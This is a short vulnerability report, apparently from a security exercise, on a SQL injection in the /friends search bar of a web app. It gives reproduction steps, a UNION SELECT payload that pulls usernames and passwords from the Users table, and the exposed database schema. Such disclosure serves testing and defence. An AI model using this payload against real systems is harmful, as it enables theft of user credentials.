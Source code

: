 # Vulnerability 1: SQL Injection in search field in /friends

- Vulnerability: SQL Injection
- Where: `/friends` endpoint: `search bar` in search my friends bar
- Impact: Arbitrary `SELECT` queries on the database

## Steps to reproduce

1. Register
2. Login
3. Navigate to the `/friends` endpoint
4. Search for `' union select username, password, 3, 4, 5 from Users; -- `
5. Collect all the passwords

[(POC)](vuln1.py)

Note: since the number of friends found is displayed it would also be possible to do a blind SQL injection if the results themselves stopped being showed.

## Impact

Severe. This allows the attacker to know all the credentials to all users (including possible admins) and to learn the schema of the DB:

```
Friends(id int, username1 varchar(20), username2 varchar(20));
FriendsRequests(id int, username2 varchar(20), username2 varchar(20));
Post(id int, author varchar(20), content text, type enum, created_at timestamp, updated_at timestamp);
Users(username varchar(20), password varchar(20), name text, about text, photo varchar(255));
```
